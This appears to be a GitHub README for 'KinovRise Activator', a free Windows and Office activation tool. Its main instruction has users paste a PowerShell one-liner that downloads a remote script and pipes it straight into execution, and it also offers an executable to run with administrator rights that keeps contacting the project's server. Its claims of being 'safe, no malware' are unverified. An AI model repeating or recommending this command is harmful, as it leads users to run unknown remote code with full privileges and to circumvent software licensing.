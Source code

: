 
<h1 align="center">KinovRise Activator 1.0 </h1>
<p align="center">KinovRise is our project that helps you activate Windows and Office as quickly as possible, for free, for multi-computer activation, easy to use , safe , no malware.</p>

<hr>
  
## How to Activate Windows / Office?

### Fastest - Powershell

1.   **Open PowerShell**  
	To do that, press the Windows key + X, then select PowerShell or Terminal.

2.   **Copy and paste the code below, then press enter.**  
```
irm https://raw.githubusercontent.com/ranusTeam41/kinovrise/refs/heads/main/KinovRise.ps1 | iex

```
### Use KinovRise.exe

If you cannot do method 1 as above, then we come to method 2: use KinovRise.exe, download it from the Release section, then run with administrator rights and activate as usual.

### Note !!

Note: The license will be renewed for 180 days when the user activates, then it will be renewed by the client connecting to the KinovRise server. If after 180 days the system does not renew, the user will reactivate to use! If the license activation fails, the user will use the Troubleshooter to Active Windows with the KinovRise license. Thank you!

### Not supporting versions
Some versions are not supported: updating !!
### Testing KinovRise
https://github.com/user-attachments/assets/cff9c68c-c3ac-430e-a0d5-fb657a04dea5
### Credits 
Project creator: TivinovDEv (https://github.com/TivinovDEv)
- Support: ranusTeam41
- If you have the heart, please help the software to develop and become more popular!
Information at: ranusTeam41.github.io/ranusteam.github.io
<p align="center">Made with love ❤️</p>
